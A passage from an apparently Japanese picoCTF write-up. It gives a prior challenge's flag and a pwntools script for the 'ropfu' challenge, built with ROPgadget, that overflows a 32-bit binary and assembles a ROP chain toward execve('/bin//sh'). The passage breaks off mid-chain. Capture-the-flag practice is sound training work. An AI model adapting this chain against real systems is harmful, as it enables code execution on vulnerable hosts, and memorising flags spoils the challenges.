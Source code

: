 <br />

Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_c2e94e3d}`





<br /><br />
<br /><br />
## [Binary]: ropfu (300 points)
- - -
### Challenge
> Description
What's ROP?
<br /><br />
Can you exploit the following program to get the flag?

Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />

### Solution
これは picoCTF 2019のrop32 とほぼ同じです。

<pre>
$ ROPgadget --binary ./vuln  --ropchain --badbytes 0a
</pre>

<br />

```Python
#!/usr/bin/env python2
# execve generated by ROPgadget

from pwn import *
from struct import pack

s = remote('saturn.picoctf.net', 56153)

# Padding goes here
p = 'A'*28

p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e39) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
```
